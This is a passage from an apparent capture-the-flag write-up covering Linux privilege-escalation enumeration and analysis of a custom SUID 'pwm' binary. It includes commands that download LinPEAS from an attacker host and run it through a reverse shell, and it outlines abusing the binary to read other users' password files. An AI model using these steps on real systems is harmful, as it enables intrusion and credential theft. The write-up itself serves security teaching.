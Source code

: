 With a foothold as `www-data`, a thorough enumeration of the target’s system was performed. The aim was to discover any misconfigurations, vulnerable software, stored credentials, or privilege escalation vectors that could allow moving from the web user to higher privileges. A popular tool for automated enumeration is **LinPEAS** (Linux Privilege Escalation Awesome Script), which was uploaded to the target and executed.

To transfer files like LinPEAS to the target, one can use various methods. A simple approach is hosting a file on a local HTTP server and using `wget` or `curl` on the target to download it. For example, on the attacker machine:

```bash
# Host the current directory over HTTP (Python 3's built-in module):
python3 -m http.server 80
```

And on the target (via the reverse shell):

```bash
wget http://10.8.181.99/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```

LinPEAS produces a comprehensive report of potential privilege escalation vectors. Among the findings on this target, one stood out immediately: an unusual SUID binary **`/usr/sbin/pwm`**. In Linux, SUID (Set-Owner-User-ID) files are executables that run with the file owner’s privileges (often root) regardless of the user executing them. They are common for certain system utilities (like `passwd`, which needs to run as root briefly to change passwords) but any **custom or uncommon SUID binary** is a prime suspect for vulnerabilities, since it could be a misconfiguration or a custom program left by the system creators. LinPEAS highlighted `pwm` because it’s not a standard system binary, and it has the SUID bit set (meaning it runs as root).

Apart from that, LinPEAS and manual checks did not reveal trivial issues like world-writable `/etc/passwd` or cron jobs. The focus thus turned to investigating `/usr/sbin/pwm`.

## Analyzing the SUID Binary `/usr/sbin/pwm`

To understand what this binary does, several strategies were used. One can start by simply running the program (with minimal or no arguments) to observe its behavior. Running `pwm` as `www-data` (remember, due to SUID, it runs as root internally) yielded the following output:

```
$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

The program appears to perform the following steps:

1. It invokes the system’s **`id`** command, presumably to get the current user’s identity.
2. It reports that identity (`ID: www-data` in this case).
3. Then it tries to find a file named `.passwords` in the home directory of that user – i.e., it constructed a path `/home/www-data/.passwords`. Since no such file existed for user `www-data`, it reported “File not found.”

This suggests that **`pwm` is a “password manager” utility** or similar. The name “pwm” could mean “Password Manager”, and it likely is designed to allow a user to retrieve some stored passwords from a file in their home directory. Importantly, because `pwm` runs as root (due to SUID), it can read any file, even those normally inaccessible to the user. That means if `pwm` is tricked into reading **another user’s .passwords file**, it would output that content with root privileges, effectively revealing someone else’s secrets.
